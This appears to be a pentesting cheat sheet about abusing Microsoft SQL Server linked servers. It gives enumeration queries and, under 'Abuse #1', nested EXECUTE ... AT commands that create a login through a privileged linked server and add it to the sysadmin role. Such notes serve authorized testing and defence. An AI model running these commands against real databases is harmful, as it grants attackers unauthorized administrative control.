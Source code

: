 ```yaml
---
title: "MSSQL Linked Servers"
date: 2024-6-27
tags: ["mssql", "database", "Windows", "linked_server", "privesc"]
---
```


### Basic Commands

<small>*Hint: Use double '' to escape ' in mssql*</small>

```console
# Show current server
select @@servername
```

```console
# Show linked servers
select srvname from sysservers;
```

```console
# Show linked servers
enum_links
```

### Execute Query between Linked Servers

```console
# Execute query from current server to linked server
EXECUTE ('select @@version;') at [<LINKED_SERVER>];
```

```console
# Execute query from linked server to current server
EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [<CURRENT_SERVER>]') at [<LINKED_SERVER>];
```

---

### Abuse #1: Create Admin User from Privilege Linked Server

```console
EXECUTE('EXECUTE(''CREATE LOGIN <USER> WITH PASSWORD = ''''<PASSWORD>'''';'') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

```console
EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<USER>'''', ''''sysadmin'''''') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

